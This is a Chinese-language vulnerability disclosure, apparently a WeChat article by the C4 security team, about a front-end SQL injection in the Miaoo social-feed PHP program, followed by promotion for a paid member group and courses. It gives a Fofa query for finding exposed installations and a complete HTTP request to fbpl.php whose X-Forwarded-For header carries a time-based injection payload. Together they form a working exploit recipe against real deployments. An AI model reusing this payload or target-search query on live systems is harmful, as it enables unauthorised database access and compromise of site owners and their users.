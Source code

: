 #  Miaoo朋友圈程序存在前台SQL注入漏洞   
 C4安全团队   2025-04-05 20:14  
  
## 0x00 前言  
  
█   
该文章来自零日防线社区用户投稿   
█  
  
**前台一键发布图文，视频，音乐。发布内容支持定位或自定义位置信息。支持将发布内容设为广告模式消息站内通知或邮件通知。支持其他用户注册,支持其他用户发布文章,管理自己的文章。**  
  
****  
**Fofa语句:"./assets/img/thumbnail.svg"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4obeZTFZn5LKyvpJDD2GusA5mCiaZaGg3qwfvuz2X7Dx6eiaxw9kpBkp9A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4oSpQLvuEVMqLkDichwp6FBOA8rP3l0bWB9hiczdOh4bE4tPqRxdteusZQ/640?wx_fmt=other&from=appmsg "")  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4oEdBYLiaSpRHlI4Wnpc1havjlOfRMBddiaORDBib69FAib53WVa285ibIFOg/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4on1qOhVpsLSIXA5aqRgicpVteGficv9a4KqdwX8M3AhPTdPBdRdnsdddg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4oD9gMWHBnHomSrLRTkYwiajH23C8xNajHZoFa6wjJfx1sluQnLBAnp2g/640?wx_fmt=png&from=appmsg "")  
  
位于 fbpl.php 中的ip参数可控，如，并未过滤就直接插入sql语句，造成注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4obFpjamib2NprStZteQAFpgMSKvgrgCzeRgT4aRUic2ZahiaAAwqAL8SnQ/640?wx_fmt=png&from=appmsg "")  
  
需要先注册一个用户-Payload 数据包如下：  
  
```
POST /Miaoo/api/fbpl.php HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/122.0.0.0 Safari/537.36Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Cookie: dark_theme=root; PHPSESSID=0ht8dht3gd8ooo5g6esuhervne; username=test123;passid=5fwlo384oiz416wz9hioc31dupu7uxsd6ch1kf9me2kd4jzaif3ng9m41fi6yyqaAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Content-Type: application/x-www-form-urlencodedConnection: closeContent-Length: 41X-Forwarded-For: 192.168.1.1','1',sleep(5));#(tieid=1&ztm=1&tiehf=1&tieea=1&pltext=1123
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fXLvCBTic875uxTJ7NJxq4otBicsyibE4J2HYMFbSXAV5lsLeblhny0ox15Uic5NH7wDkic2hsXT8fhyQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkysic7NSibpvLZNxicl3gia2AQgicckC6D0UmMgUvPYkMGUrVO11qVoiaN5UQ/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
内部圈子介绍  
  
  
我们是C4安全团队  
，师傅们别忘了  
关注和  
点赞，团队的成长离不开你们，感谢师傅们，Ciallo～(∠・ω< )⌒★~  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkh1aPOciaQusEdbRfFxibYX9MQUfcsgzH7DaD69vsgW2HgSiceoqqrongQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
圈子专注于更新  
SRC挖掘  
/代码审计  
相关：  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/HaJr68L1tTTex7g7gA9hIFRAorxicicgGM4NFxNNVqAaFBL5ictHcaU9zf0zmhChIgNAvRrxUSV1l2FyI6ucawvXg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
**内部圈子**  
**专栏介绍**  
  
Freebuf知识大陆内部共享资料截屏详情如下  
  
（每周保持更新）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkzvdgfFtJotO7T8dD5ATKyyeuQibDwZoltOB3Uy5nRicGDxCEpwrlRYNg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
**知识大陆——安全渗透感知大家族**  
****  
  
圈子券后现价 ￥49.9元  
  
如果你有兴趣加入，抓住机会不要犹豫，价格只会上涨，不会下跌  
  
圈子人数少于400人 49.9元/年  
  
圈子人数少于600人 69.9元/年  
  
（新人优惠券10，扫码或者私信开头二维码即可领取）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkmbjBasHPFar7Cyrl5RBiawuiaks0DMFmHXODN0UkbaCnfMqtuLZicJXDw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
内部圈子——  
群  
友反馈  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkZXuRl4vOBsaQwJK1AbsPcGMiczaPickCuIzicPiblfFjyjic3aeuzqVLLhg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkpxDWia5shmzQH4UialWGUCsoWYMHVpcEtUxF7RsfJaHKl9gsVWEjqAuw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
漏洞源码圈子  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcjib4zibjfzUaQjLqIXcx6277rE9eP9fibRBBnia5neIEwnkEibNW97ia5FOw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
团队公开交流群  
  
QQ群和微信群都已建立，方便常用QQ或微信的师傅加入团队公开交流群，交流各类网安、实战方面的问题~  
  
（微信群①群已满200人，需要邀请加开头运营二维码才能加入，②群如下）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ3tIc6DmyWu5uY5PkcNoDFwqLIlAKRmdNricVPAOaDh7XVmiaLzVA32aRRdtaOA5icDTZLAuG5JmZng/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkysic7NSibpvLZNxicl3gia2AQgicckC6D0UmMgUvPYkMGUrVO11qVoiaN5UQ/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
网安考证咨询  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasaAjJImJDkVXQV86YymyOYWfj3nicwJ11Jp7ySq1HjBazRjibFW7fEbWg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "httpsu.wechat.comMMNIFu0mUhIchBxkan0Zozgs=1.png")  
  
**扫码联系**  
  
获取考证课程信息  
  
  
  
  
课程合作方：  
北京承制科技有限公司  
  
  
承制科技  
拥有多位资历非常丰富的CISP、NISP讲师，单从授课次数来讲，仅其中三位讲师加起来就有57次培训讲师的授课经历、参加过的项目/赛事支持总计43+次，其中不乏全国性网络安全赛事的冠军，更有讲师担任过国内网络安全赛事的出题人和裁判。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcZibRxL7Pf4lOcW0ticZXr8ib5EWich5RQ0wopyGIKORvrqmJrIJm16nKEg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcUgxFYRSTfPxy8dAhJ1cSEy1RZbCD4HbuIQaHuDmF5I7aIVHTHrPl4w/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcreFg2WYmaqXMPjLSibaRBm9DYWwe8zhxzSXtWUDM1etEHOTNeRKic2Xg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcHPT7QLTzv7EJ9Xb1ibTfGN8n1ibOjnQQVWg0G8JkSkzy5LsNxLrt6BOA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcTrNicLLNQoFJl4dUbrAqPYrM42VPKiczZYvQoCmOUtI3Tw8eTGya4s5Q/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
